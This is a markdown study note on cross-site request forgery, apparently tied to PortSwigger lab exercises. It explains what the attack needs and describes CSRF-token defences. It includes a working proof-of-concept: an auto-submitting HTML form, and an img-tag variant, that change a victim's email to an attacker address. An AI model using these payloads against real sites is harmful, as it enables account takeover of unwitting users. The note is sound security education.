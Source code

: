 - allows an attacker to induce users to perform actions that they do not intend to perform
	- partly circumvent the same origin policy (designed to prevent different websites from interfering with each other)
	- can induce victim to change password, change email or make bank transfer
- needs:
	- **relevant action**: action within the app that attacker has reason to induce
	- **cookie based session handling**: app relies solely on session cookies to identify user, and no other mechanisms in place
	- **no unpredictable request parameters**: eg. the function is not vulnerable if the attacker needs to know the value of existing password in order to change password
		```
		POST /email/change HTTP/1.1
		Host: vulnerable-website.com
		Content-Type: application/x-www-form-urlencoded
		Content-Length: 30
		Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE
		
		email=wiener@normal-user.com
		```
		- relevant action, only session cookie to identify user, only email parameter required to change email to trigger password reset 
		- attacker can submit the following:
			```html 
			<html>
			    <body>
			        <form action="https://vulnerable-website.com/email/change" method="POST">
			            <input type="hidden" name="email" value="pwned@evil-user.net" />
			        </form>
			        <script>
			            document.forms[0].submit();
			        </script>
			    </body>
			</html>
			```
			- use CSRF PoC generator that is built in Burp 
				- select the request and right click to *Engagement tools-> Generate CSRF PoC*
				- cookies will be added by the victim's browser
			Lab: [CSRF vulnerability with no defenses](../../../../writeups/portswigger/CSRF%20vulnerability%20with%20no%20defenses.md)
			- use phishing links or stored XSS
			- self-contained attack: `<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">` (assuming it is a `GET` request)
# Defences Against CSRF
- **CSRF tokens**: secret, unpredictable value that is generated by the server side app and shared with the client. client must include the correct token when performing a sensitive action
	- usually included as a hidden parameter
		```
		<form name="change-email-form" action="/my-account/change-email" method="POST">
		    <label>Email</label>
		    <input required type="email" name="email" value="example@normal-website.com">
		    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
		    <button class='button' type='submit'> Update email </button>
		</form>
		```
